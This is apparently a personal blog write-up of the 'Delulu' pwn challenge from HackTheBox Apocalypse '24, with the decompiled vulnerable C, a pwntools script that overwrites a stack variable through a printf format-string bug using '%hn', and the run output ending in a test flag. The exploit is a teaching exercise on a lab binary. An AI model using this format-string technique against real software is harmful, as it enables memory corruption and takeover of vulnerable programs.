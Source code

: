 ```yaml
---
layout: post
title: "pwn delulu"
date: 2024-03-14 17:18:49 -0700
categories: ctfs
description: The "Delulu" challenge in the pwn category involves exploiting a vulnerability in the printf function, leading to arbitrary memory overwrite. By identifying the lack of type declaration in printf and leveraging the `%n` format specifier, participants can manipulate memory to achieve their objective, such as overwriting a variable value.
parent: HackTheBox - Apocalypse '24
grand_parent: CTF Events
event: "hackthebox-apocalypse"
tags:
- "pwn"
- "printf vulnerability"
- "arbitrary memory overwrite"
- "exploitation"
- "format string vulnerability"
---
```




## Delulu - Pwn Challenge
The "Delulu" challenge, while considered easy, presented a significant hurdle to me due to its exploitation of the printf function's vulnerability. Participants initially identify that printf is used without specifying the output type, leading to a format string vulnerability where raw input data is directly dumped onto the screen. Watching [CryptoCat](https://www.youtube.com/playlist?list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94) youtube on Pwn CTF challenges, and reading the suggested article by [Alexandre Cheron](https://axcheron.github.io/exploit-101-format-strings/) REALLY helped me grok enough information to finally craft this payload.

### Exploiting the Format String Vulnerability:
Upon discovering the lack of type declaration in printf, participants experiment with various format specifiers, including `%p`, to manipulate memory and leak values from the stack. By iterating through these values, participants eventually identify the variable storing a value to check against "0x1337beef."

```c

undefined8 main(void)

{
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = 0x1337babe; //<-- Variable holding on the target value
  local_40 = &local_48;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  read(0,&local_38,0x1f); //<-- My input, 31 characters long
  printf("\n[!] Checking.. "); 
  printf((char *)&local_38); //<-- Vulnerable function that allows me to leak addresses and manipulate memory
  if (local_48 == 0x1337beef) { //<-- Where the check against local_48 is made to see if 0x1337babe will equal 0x1337beef
    delulu(); //<-- The winning condition
  }
  else {
    error("ALERT ALERT ALERT ALERT\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

### Crafting the Payload:
To manipulate memory and overwrite the variable, participants craft a payload utilizing the `%hn` format specifier. This specifier allows them to specify the number of characters written by printf and thus control the memory write operation. Through research and understanding gained from online resources, participants create a payload to overwrite the variable with the desired value, "0x1337beef."

```python
def execute():
    io = start()

    beef = 0xbeef # We only have to change the second half
    pointer = (0x7fffffffad80+6).to_bytes(length=6, byteorder="little") # Found this in gdb using `x/1000x $sp` and searching for my value AFTER I had a padded output, as this value moved around on me
    position = 7 # Found this by iterating through all the first 100 pointers with %p, however originally I was off-by-one on which value to send.
    
    payload = pointer # The memory location to overwrite
    payload += b'%' # printf separator
    payload += str(beef-6).encode() # 
    payload += b'x%' # Tells printf to print len(char) and not the pointer of len(char)
    payload += str(position).encode()
    payload += b'$hn'

    print(len(payload), payload)
    io.recvuntil(b'>>')
    io.sendline(payload)

    io.interactive()

execute()
```

```sh
11:44:18] tokugero :: pangolin  ➜  pwn/delulu/challenge » python pwntools.py 
[+] Starting local process './delulu': pid 542078
18 b'\x86\xad\xff\xff\xff\x7f%48873x%7$hn'
[*] Switching to interactive mode
[!] Checking.. \x86\xad\xff\xff\xff\x7f                                                                                                        <SNIPPING 0xbeef AMOUNT OF SPACES>
You managed to deceive the robot, here's your new identity: HTB{f4k3_fl4g_4_t35t1ng}
[*] Got EOF while reading in interactive
```

### Conclusion:
The "Delulu" challenge underscores the importance of understanding printf vulnerabilities and format string attacks in pwn challenges. By leveraging the `%hn` format specifier and crafting a precise payload, participants can manipulate memory and achieve their objectives. This experience highlights the significance of thorough research and experimentation in exploiting vulnerabilities effectively.
